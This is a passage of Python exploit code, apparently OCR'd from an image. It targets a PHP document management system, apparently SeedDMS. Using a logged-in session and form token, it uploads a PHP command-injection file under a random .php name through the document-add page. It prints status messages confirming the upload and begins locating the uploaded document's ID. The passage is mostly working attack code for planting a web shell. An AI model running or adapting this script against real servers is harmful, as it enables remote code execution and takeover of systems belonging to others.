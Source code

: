         return sessionObj, formToken

    def uploadingPHP(sessionObj, url, formToken):
        path = "/op/op.AddDocument.php"
        url += path

        #generating random name
        letters = string.ascii_lowercase
        rand_name = ''.join(random.choice(letters) for i in range(20))

        #POST Data
        payload = {
            'formtoken' : formToken,
            'folderid' : '1',
            'showtree' : '1',
            'name' : rand_name,
            'comment' : '',
            'keywords' : '',
            'sequence' : '2',
            'presetexpdate' : 'never',
            'expdate' : '',
            'ownerid' : '1',
            'reqversion' : '1',
            'userfile[]' : (
                '%s.php' % (rand_name),
                open('phpCmdInjection.php', 'rb'),
                'application/x-httpd-php'
                ),
            'version_comment' : ''
        }

        multiPartEncodedData = MultipartEncoder(payload)

        try:
            rsl = sessionObj.post(url, data=multiPartEncodedData, headers={'Content-Type' : multiPartEncodedData.content_type})

            if(rsl.status_code == 200):
                print("[*] Command Injection PHP Code Uploaded.")
                print("[*] Name in Document Content Shows: " + rand_name)

                return sessionObj, rand_name
            else:
                print("[!] Something went wrong.")
                print("Status Code: %d" % (rsl.status_code))
                sys.exit(0)


        except Exception as e:
            print("[!] Something Went Wrong!")
            print(e)
            sys.exit(0)

        return sessionObj, rand_name

    def getDocID(sessionObj, url, docName):
        path = "/out/out.ViewFolder.php?folderid=1"
        url += path
